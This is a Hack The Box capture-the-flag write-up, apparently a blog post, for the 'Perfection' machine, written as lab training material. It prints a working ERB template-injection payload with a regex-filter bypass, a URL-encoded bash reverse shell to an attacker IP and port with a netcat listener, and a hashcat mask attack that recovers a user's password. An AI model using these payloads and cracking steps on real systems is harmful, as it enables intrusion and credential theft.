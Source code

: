 ```yaml
---
layaout: post
image: /assets/perfection/perfection.png
title: Perfection Write Up HTB
date: 12-02-2025
categories: [Write ups]
tag: [Hash Cracking,SSTI,Credential Dumping]
excerpt: "Perfection on Hack The Box is an easy-difficulty Linux machine that revolves around exploiting a vulnerable student score calculation web application and escalating privileges through password cracking. The initial foothold requires leveraging a Server-Side Template Injection (SSTI) vulnerability by bypassing a regex filter, granting access to the machine. From there, privilege escalation involves discovering password hashes stored in a database and performing a mask attack to retrieve credentials, ultimately leading to root access.

This machine is ideal for those looking to understand SSTI exploitation and password-cracking techniques in a real-world scenario"
---
```

![img-description](/assets/perfection/perfection.png)

Perfection on Hack The Box is an easy-difficulty Linux machine that revolves around exploiting a vulnerable student score calculation web application and escalating privileges through password cracking. The initial foothold requires leveraging a Server-Side Template Injection (SSTI) vulnerability by bypassing a regex filter, granting access to the machine. From there, privilege escalation involves discovering password hashes stored in a database and performing a mask attack to retrieve credentials, ultimately leading to root access.

This machine is ideal for those looking to understand SSTI exploitation and password-cracking techniques in a real-world scenario

## ENUMERATION
---
First, we perform an Nmap scan to identify open ports:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.253 -oG allPorts
```

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.253 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-12 21:28 CET
Initiating SYN Stealth Scan at 21:28
Scanning 10.10.11.253 [65535 ports]
Discovered open port 22/tcp on 10.10.11.253
Discovered open port 80/tcp on 10.10.11.253
Completed SYN Stealth Scan at 21:28, 12.20s elapsed (65535 total ports)
Nmap scan report for 10.10.11.253
Host is up, received user-set (0.046s latency).
Scanned at 2025-02-12 21:28:40 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
           Raw packets sent: 65591 (2.886MB) | Rcvd: 65535 (2.621MB)
```

Since port 80 is open, we add it to the `/etc/hosts` file with the corresponding domain:

```bash
vim /etc/hosts
```

Upon accessing the domain, we see the following page:

![Texto alternativo](/assets/perfection/Screenshot%202025-02-12%20214412.jpg)

There is a "calculate" section, which likely uses a template engine on the backend (such as ERB, Jinja2, Twig, etc.). This could be vulnerable to Server-Side Template Injection (SSTI).

## FOOTHOLD
---
To test for SSTI, we send the following payload using Burp Suite and check the response:
**IMP : You need to put several categories or else it won't work**

```bash
Math%0a<%25%3d+IO.popen('id').readlines()+%25>
```

![Texto alternativo](/assets/perfection/Screenshot%202025-02-12%20224947.jpg)

Since the application is vulnerable, we proceed to execute a reverse shell:

```bash
Math%0a<%25%3d+IO.popen('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.16/4444+0>%261"').readlines()+%25>
```

Set up a listener and execute the payload:

```bash
nc -lvpn 4444
```

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.253] 56024
bash: cannot set terminal process group (1027): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ 
```

To improve shell functionality, run:

```bash
script /dev/null -c /bin/bash
```

```bash
susan@perfection:~$ script /dev/null -c /bin/bash
script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
```

Now, in Susan's home directory, we find `user.txt`:

```bash
susan@perfection:~$ cat user.txt
03f43e5a1367d8ed6############
```

## PRIVILEGE ESCALATION
---
Inside Susan's home directory, we find a `Migration` folder containing a database.

![Texto alternativo](/assets/perfection/Screenshot%202025-02-12%20230159.jpg)

Since it is a binary file, we use `strings` to extract readable data:

```bash
strings pupilpath_credentials.db
```

```bash
susan@perfection:~/Migration$ strings pupilpath_credentials.db
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
...
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

### MASK ATTACKS
---
We focus on cracking Susan's password hash. First, create a wordlist containing the prefix `susan_nasus_`:

```bash
echo "susan_nasus_" > wl
```

Save the hash into a file:

```bash
echo "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f" > hash
```

Identify the hash type:

```bash
hashid -m 'abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f'
```

```bash
[+] SHA-256 [Hashcat Mode: 1400]
```

Using Hashcat to crack the hash:

```bash
hashcat -m 1400 -a 6 hash wl ?d?d?d?d?d?d?d?d?d -O
```

| Command                | Description |
| ---------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **hashcat**            | Runs Hashcat. |
| **-m 1400**            | Specifies the hash type (SHA-256). |
| **-a 6**               | Uses hybrid attack mode, combining a dictionary and a mask. |
| **hash**               | File containing the target hash. |
| **wl**                 | Dictionary file containing the fixed portion of the password (`susan_nasus_`). |
| **?d?d?d?d?d?d?d?d?d** | Mask specifying a 9-digit numeric suffix. |
| **-O**                 | Enables optimized mode, improving performance. |

After some time, we retrieve the password: **susan_nasus_413759210**

```bash
Session..........: hashcat
Status...........: Cracked
...
Recovered........: 1/1 (100.00%) Digests
...
```

Now, we can use `sudo su` to escalate privileges:

```bash
susan@perfection:~$ sudo su
[sudo] password for susan: susan_nasus_413759210

root@perfection:/home/susan# 
```

Retrieve `root.txt`:

```bash
root@perfection:~# cat root.txt
bd91ee880f4328d588############
```

Both flags are now obtained!


